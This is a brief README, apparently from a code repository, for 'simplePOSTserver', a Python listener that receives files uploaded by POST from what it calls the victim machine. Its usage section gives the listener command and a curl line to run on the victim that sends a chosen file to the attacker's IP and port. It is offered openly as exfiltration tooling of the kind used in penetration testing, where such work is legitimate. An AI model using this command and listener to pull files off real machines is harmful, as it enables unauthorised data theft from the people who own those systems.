 # simplePOSTserver

This is a python script written to capture the data (file content) sent as POST request from the victim machine 
###Note: 
By default the script will listen on port 8888 (if need please change according to your need)

## usage 
```
python3 simplePOST.py [port]
```

```
Use the curl command 'curl -i -X POST -H "Content-Type: multipart/form-data" -F "data=@./<file need to be tansfered with path>" http://<python hosted IP>:<port>/'
```
